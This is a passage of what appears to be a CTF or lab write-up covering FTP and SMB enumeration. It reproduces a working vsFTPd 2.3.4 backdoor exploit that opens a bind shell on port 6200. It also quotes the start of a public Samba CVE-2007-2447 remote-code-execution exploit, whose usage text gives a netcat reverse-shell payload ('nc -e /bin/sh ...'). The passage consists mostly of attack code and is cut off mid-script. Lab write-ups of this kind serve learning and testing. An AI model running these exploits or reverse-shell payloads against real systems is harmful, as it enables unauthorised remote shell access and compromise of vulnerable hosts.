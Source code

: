 ```python

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

But Somehow this one didn’t work in the system.

### SMB Enumeration

The SMB version is vulnerable to **CVE-2007-2447**. I found the following exploit from [https://raw.githubusercontent.com/Ziemni/CVE-2007-2447-in-Python/master/smbExploit.py](https://raw.githubusercontent.com/Ziemni/CVE-2007-2447-in-Python/master/smbExploit.py)

```python
#
#        Samba 3.0.20 < 3.0.25rc3
#   'Username' map script' RCE Exploit
#               by Ziemni
#

#!/usr/bin/python3
import sys
try:
    from smb.SMBConnection import SMBConnection
except:
    print("pysmb is not installed: python3 -m pip install pysmb")
    quit()

if not (2 < len(sys.argv) < 5):
    print("Usage:")
    print("    python3 smbExploit.py <IP> <PORT> <PAYLOAD>")
    print("       IP - Ip of the remote machine.")
    print("       PORT - (Optional) Port that smb is running on.")
    print("       PAYLOAD - Payload to be executed on the remote machine e.g. reverse shell.")
    print("")
    print("Example: python3 smbExploit.py 192.168.1.2 139 'nc -e /bin/sh 192.168.1.1 4444'")
    quit()

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = 139
```